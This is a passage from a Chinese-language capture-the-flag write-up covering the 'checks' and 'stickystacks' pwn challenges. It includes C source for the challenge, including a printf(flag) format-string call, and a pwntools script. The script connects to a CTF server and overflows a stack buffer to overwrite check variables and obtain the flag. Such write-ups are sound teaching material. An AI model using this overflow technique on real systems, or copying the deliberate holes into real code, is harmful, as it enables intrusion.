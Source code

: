 ```c
                                exit(1);
                            }
                            
                            fgets(flag, 128, f);
                            
                            printf(flag);
                            return;
                        }
                    }
                }
            }
        }
        puts("Nope, something seems off.");
    } else {
        puts("Login failed!");
    }
}
```

在上一题的基层上，增加了对4个变量的判断，打开ida发现要判断的4个变量在栈末位，每个占有2个字节于是合理推算栈空间。

exp：

```python
from pwn import *

p=remote('shell.actf.co',21303)
#process('./checks')
e=ELF('./checks')
pay='password123\00'+(0x60-len('password123\00')-0x14)*'a'+p32(0x11)+p32(0x3d)+p32(0xf5)+p32(0x37)+p32(0x32)
print len(p32(0x11)+p32(0x3d)+p32(0xf5)+p32(0x37)+p32(0x32))
#gdb.attach(p)
p.sendline(pay)


p.interactive()
```



### stickystacks

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>


typedef struct Secrets {
    char secret1[50];
    char password[50];
    char birthday[50];
    char ssn[50];
    char flag[128];
} Secrets;


int vuln(){
    char name[7];
    
    Secrets boshsecrets = {
        .secret1 = "CTFs are fun!",
        .password= "password123",
        .birthday = "1/1/1970",
        .ssn = "123-456-7890",
```